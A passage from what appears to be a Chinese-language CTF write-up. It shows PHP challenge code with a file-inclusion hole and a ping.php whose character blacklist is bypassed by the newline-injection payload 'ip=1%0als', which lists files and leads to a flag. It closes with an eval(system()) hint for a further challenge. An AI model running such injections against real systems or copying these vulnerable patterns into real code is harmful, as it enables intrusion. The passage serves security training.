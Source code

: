 ```php
            include($_REQUEST['path']);
            exit();
        } else {
            echo "Wrong password..";
        }
-->
```
```php
# ping.php
<?php
if(isset($_REQUEST[ 'ip' ])) {
    $target = trim($_REQUEST[ 'ip' ]);
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '|' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    $cmd = shell_exec( 'ping  -c 4 ' . $target );
        echo $target;
    echo  "<pre>{$cmd}</pre>";
}
```
ping.php的ip参数使用%0a作命令分隔符可以执行任意命令，访问“/ping.php?ip=1%0als”得到
```
PING 1 (0.0.0.1): 56 data bytes
ffffff1111aagggg.txt
index.php
ping.php
```
访问“ffffff1111aagggg.txt”得到flag
```
flag{You_AR3_qiao_bi_KuN???}
```


#### post1(300)
> http://120.55.43.255:20133

查看网页源码
```html
POST[a] 这次我们玩过滤好了。
<!--
	eval(system($c));//read flag.txt But no cat!！！
-->
```
